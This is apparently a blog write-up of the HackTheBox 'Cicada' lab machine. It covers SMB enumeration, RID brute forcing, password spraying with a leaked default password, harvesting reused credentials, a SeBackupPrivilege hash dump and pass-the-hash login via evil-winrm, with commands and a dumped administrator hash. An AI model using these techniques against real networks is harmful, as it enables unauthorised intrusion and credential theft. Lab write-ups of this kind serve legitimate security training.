 ```yaml
---
layout: post
title: "HackTheBox: Cicada - Writeup 01/10/2024"
description: A writeup for Hackthebox Cicada
date:   2024-10-01 12:06:31 +0000
image:  '/images/post/cicada.jpg'
tags:   [Hackthebox]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/cicada/scans; cd ~/ctf/HackTheBox/cicada`
IP Address: 10.10.11.35


`echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts`
10.10.11.35 cicada.htb

***
### Enumeration 

`nmap -sC -sV -Pn -p- cicada.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 cicada.htb`
```
# nmap findings


PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack
88/tcp    open  kerberos-sec   syn-ack
135/tcp   open  msrpc          syn-ack
139/tcp   open  netbios-ssn    syn-ack
389/tcp   open  ldap           syn-ack
445/tcp   open  microsoft-ds   syn-ack
464/tcp   open  kpasswd5       syn-ack
593/tcp   open  http-rpc-epmap syn-ack
636/tcp   open  ldapssl        syn-ack
5985/tcp  open  wsman          syn-ack
50767/tcp open  unknown        syn-ack

```



Found Note from HR.txt in SMB guest share 
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp

```

Using RID/ SID Brute forcing we get the following 
`lookupsid.py guest@10.10.11.35 -no-pass`
`crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
`
```


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

```
User list:
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
using crackmapexec we get `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

![a3dc4c40b6f42502459af7e6395c1254.png]({{site.baseurl}}/images/post/a3dc4c40b6f42502459af7e6395c1254.png)

we get another password from description
`david.orelious:aRt$Lp#7t*VQ!3`


We get access to dev share 
![34441f2039f6b63a54906459f729cc07.png]({{site.baseurl}}/images/post/34441f2039f6b63a54906459f729cc07.png)

in dev share we find password for emily.oscars
![a657aa4feeb1cc95ddea85677ba42e46.png]({{site.baseurl}}/images/post/a657aa4feeb1cc95ddea85677ba42e46.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt`


***
# user flag
Location: C:\Users\emily.oscars.CICADA\Desktop | Flag: e83a7##################################
```

***
#### Privilege Escalation

```

using assigned privileges we use **SeBackupPrivilege**
![dac3b5623835eb4b5f326cc61c9692a4.png]({{site.baseurl}}/images/post/dac3b5623835eb4b5f326cc61c9692a4.png)
![f64d2c81ec0ab99f35e7378c710d136b.png]({{site.baseurl}}/images/post/f64d2c81ec0ab99f35e7378c710d136b.png)
![f6bf22feda995b69a53d929da6340581.png]({{site.baseurl}}/images/post/f6bf22feda995b69a53d929da6340581.png)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

using Pass-the-hash `evil-winrm -i 10.10.11.35 -u 'administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' 
`


# root flag
Location: :\Users\Administrator\Desktop | Flag: b1dc7##################################
```

```